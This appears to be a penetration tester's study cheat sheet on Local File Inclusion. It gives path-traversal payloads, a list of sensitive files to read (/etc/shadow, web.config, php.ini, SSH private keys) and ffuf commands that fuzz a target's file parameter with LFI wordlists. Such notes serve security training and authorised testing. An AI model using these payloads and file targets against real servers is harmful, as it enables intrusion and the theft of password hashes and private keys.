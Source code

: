 General format to look out for
	view?file=../../../../../../../../
	index.php?view=../../../../../../../../

Common Web Roots and config files
```bash
# IIS
C:\inetpub\wwwroot
	\application\web.config
	\web.config

# XAMPP
C:\xampp\htdocs
	\conf\extra\httpd-xampp.conf
	\conf\httpd.conf
\xampp\php\php.ini # php conf file
\xampp\mysql\bin\my.ini # mysql conf file

# Linux
/var/www/html
/var/www/<site>
```

Research program versions and credential locations for those programs if you find an LFI present.

Also check BURP Responses for all requests, you may get more information than the page displays
## Low Hanging Fruit
Linux:
`/etc/passwd
`/etc/shadow`
config files (research default locations)

Windows:
`/WINDOWS/system32/drivers/etc/hosts`

SSH Keys
```bash
# Linux
/home/<user>/.ssh/<keys>
/home/<user>/<keys>

# Windows
/Users/<user>/.ssh/<keys>
/Users/<user>/<keys>

# Keys -- RSA/DSA/EC/OPENSSH 32/64 for reference
id_rsa
id_dsa
id_ecdsa
id_eddsa
id_ecdsa_sk 
id_ed25519 
id_ed25519_sk
```
Conceptually, windows and linux storage of ssh keys are very similar

Also consider checking out [this](https://s4thv1k.com/posts/oscp-cheatsheet/#important-locations)

If low hanging fruit fails us, we can fuzz for stuff like config files, log files, etc...

## LFI Fuzzing
We can use burp intruder to fuzz the path but it sucks without burp pro

Use LFI wordlists `/usr/share/wordlists/seclists/Fuzzing/LFI`
	LFI-Jhaddix.txt   `START HERE`
	LFI-LFISuite-pathtotest-huge.txt

Fuzzing
```bash
# When fuzzing, run twice
1. General scan
ffuf -w /usr/share/seclists/Fuzzing/LFI/<wordlist>:FUZZ -u http://$IP/<view>?<file>=/../../../../../../../FUZZ -ac

2. Specify default web root
ffuf -w /usr/share/seclists/Fuzzing/LFI/<wordlist>:FUZZ -u http://$IP/<view>?<file>=/../../../../../../../<web>/<root>/FUZZ -ac

# If something has to come AFTER the specified file, include it in the ffuf command
```



